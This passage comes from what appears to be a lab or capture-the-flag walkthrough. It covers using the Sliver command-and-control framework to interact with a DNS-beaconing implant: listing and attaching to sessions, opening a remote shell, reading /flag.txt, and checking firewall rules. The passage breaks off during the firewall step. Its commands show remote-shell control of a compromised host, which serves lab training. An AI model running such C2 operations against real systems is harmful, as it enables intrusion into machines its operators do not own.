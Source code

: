    - **Expected Output:**

     You should see debug logs indicating that the implant is attempting to connect back to the C2 server via DNS.

     

## Step 6: Interact with the Implant from the C2 Server

1. **Return to the Sliver Client on the C2 Server.**

2. **List Active Sessions:**

   After the implant connects, you should see a session appear:

   ```bash
   sessions
   ```

3. **Activate the Session:**

   Use the session ID displayed (e.g., `6126a4aa-6907-4de9-88c8-99824c8cccca`):

   ```bash
   use 6126a4aa-6907-4de9-88c8-99824c8cccca
   ```

4. **Open a Remote Shell:**

   ```bash
   shell
   ```

   - **Note:** You may be prompted with a warning about OPSEC (Operational Security). Confirm to proceed.

5. **Execute Commands on the Client:**

   For example, to read the `flag.txt` file:

   ```bash
   cat /flag.txt
   ```

   - **Expected Output:** Contents of the `flag.txt` file (if it exists).

6. **Exit the Shell:**

   Press `Ctrl+C` to exit the remote shell.

7. **Terminate the Implant on the Client:**

   On the client shell, press `Ctrl+C` to stop the implant.

## Step 7: Verify Firewall Rules

Check the firewall logs to ensure that only DNS traffic is allowed:

```bash
make firewall_shell
```

Then, list the iptables rules:
